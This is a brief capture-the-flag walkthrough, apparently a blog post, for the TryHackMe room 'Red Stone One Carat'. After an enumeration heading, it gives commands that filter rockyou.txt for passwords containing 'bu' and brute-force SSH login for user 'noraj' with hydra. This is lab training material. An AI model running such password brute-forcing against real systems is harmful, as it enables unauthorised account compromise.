 ```yaml
---
layout: post
title: Tryhackme Room - Red Stone One Carat
---
```


Room: [Red Stone One Carat]

# Enumeration <nmap>
- Start by enumerating the box

# Port 22 open
- use "noraj" to bruteforce the box

```bash

# since the hint tells us that the password contains 'bu'
awk '/bu/' rockyou.txt > wordlist.txt

hydra -l noraj -P wordlist.txt ssh://IP -V -F -t 4

```

